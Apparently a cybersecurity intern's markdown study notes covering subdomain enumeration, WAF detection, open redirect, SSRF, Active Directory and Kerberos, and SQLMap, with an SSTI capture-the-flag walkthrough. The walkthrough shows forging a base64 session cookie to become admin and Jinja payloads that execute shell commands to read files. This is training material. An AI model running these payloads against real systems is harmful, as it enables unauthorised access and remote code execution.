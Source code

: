 
# 🛡️ Day 7: Subdomain Pentesting, SSRF, SSTI CTF, Active Directory, Kerberos, SQLMap

---

## 🌐 Subdomain File Pentesting

Subdomain pentesting is the process of identifying and testing **subdomains** of a main website to discover potential vulnerabilities.

### 🎯 Example:
- `example.com` might have subdomains like:
  - `admin.example.com`
  - `dev.example.com`
  - `test.example.com`

These can expose staging environments, dev servers, or misconfigured apps.

---

## 🔍 Subfinder Tool

**Subfinder** is a fast passive subdomain enumeration tool written in Go. It uses passive online sources to discover subdomains.

### 🔧 Example Command:
```bash
subfinder -d example.com
```

Returns a list of subdomains associated with `example.com`.

![subfinder](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/subfinder.jpg)

---

## 🧱 WAFW00F (Web Application Firewall Fingerprinting)

**WAFW00F** detects if a domain is protected by a Web Application Firewall (WAF) and identifies its type.

### 🔧 Example:
```bash
wafw00f https://targetsite.com
```
![wafwoof](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/wafoof.jpg)

This helps penetration testers craft payloads that can bypass specific WAF protections.

---

## 🔁 Open Redirect Vulnerability

Open Redirect occurs when a vulnerable application redirects users to an untrusted site without validation.

### 🧪 Steps to Test:
1. Find redirect parameter (e.g., `?next=`)
2. Modify value to malicious domain: `https://site.com/login?next=http://evil.com`
3. If user gets redirected → vulnerable

### 🛡️ Mitigations:
- Whitelist only internal paths (`/login`, `/dashboard`)
- Reject full URLs as values
- Enforce redirects using IDs or tokens

---

## 🛰️ SSRF (Server-Side Request Forgery)

SSRF allows attackers to send crafted requests from the server itself.

### 🧠 Example:
Input like `http://127.0.0.1:80/admin` forces the backend to query internal services.

### 🛡️ Mitigations:
- Internal request segmentation
- Block internal IP ranges (127.0.0.0/8, 169.254.0.0/16)
- Use allow-lists for URLs
- Disable unused protocols (e.g., `file://`)

---

## 🎯 SSTI CTF Walkthrough

### 🔐 Phase 1: Cookie Manipulation (Bypassing Login)
```bash
echo "eyJ1c2VyX2lkIjozLCJ1c2VybmFtZSI6ImFsaWNlIn0=" | base64 -d
# Output: {"user_id":3,"username":"alice"}
```
![ctf-1](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/Screenshot%202025-07-15%20192024.png)

Change to admin:
```json
{"user_id":1,"username":"admin"}
```
![ctf-2](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/Screenshot%202025-07-15%20192050.png)

Re-encode and inject via:
```js
document.cookie = "session=eyJ1c2VyX2lkIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0=";
```

✅ You’re now logged in as admin.

---

### 🎭 Phase 2: Discovering SSTI
Form input: `{{7*7}}`  
Output: `Happy New Year 2025, 49!` ✅ Confirmed SSTI.

![ctf-3](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/ctf-7.png)

---

### 💥 Phase 3: Exploiting SSTI to Achieve RCE

```jinja
{{ cycler.__init__.__globals__.os.popen('ls /home').read() }}
{{ cycler.__init__.__globals__.os.popen('cat /home/deadly-agent/ctfs/new1/captcha/flag.txt').read() }}
```

✅ Extracted flag:  
```
flag{congrats_you_pwned_the_ssti_and_cookie_auth}
```

---

## 🏢 Active Directory (AD)

AD is a Microsoft service that manages **users, computers, policies, and resources** in a centralized domain.

### 📦 Components:
- **Domain** – Central unit of AD
- **OU (Organizational Unit)** – Containers within domains
- **Users** – Accounts with access privileges
- **Groups** – User collections
- **Computers** – Endpoints
- **DC (Domain Controller)** – Auth server
- **Forest/Tree** – Hierarchy of domains

---

## 🔐 Authentication in AD

- **LDAP** for directory access
- **NTLM** and **Kerberos** for authentication
- Supports single sign-on (SSO)
- Users authenticate against the **Domain Controller (DC)**

---

## 🔑 Kerberos Authentication Process

1. **User requests Ticket Granting Ticket (TGT)** from **KDC (Key Distribution Center)**.
2. KDC verifies and issues TGT encrypted with user key.
3. User presents TGT to get **Service Ticket**.
4. Access granted to the service.

> Kerberos uses symmetric key cryptography and timestamps.

---

## 💉 SQLMap – SQL Injection Automation

**SQLMap** automates SQL injection detection and exploitation.

### 🔧 Usage:
```bash
sqlmap -u "http://site.com/login?user=1" --dbs
sqlmap -r request.txt --batch
```

### ✅ Features:
- Supports MySQL, MSSQL, Oracle, PostgreSQL, etc.
- Detects and exploits:
  - Boolean-based
  - Error-based
  - Time-based
  - UNION query

---

## 📚 Bonus Resource: PayloadAllTheThings

GitHub repo filled with:
- Payloads for XSS, SQLi, LFI, SSTI
- Wordlists and bypass tricks
- Real-world exploitation tips

🔗 https://github.com/swisskyrepo/PayloadsAllTheThings

---
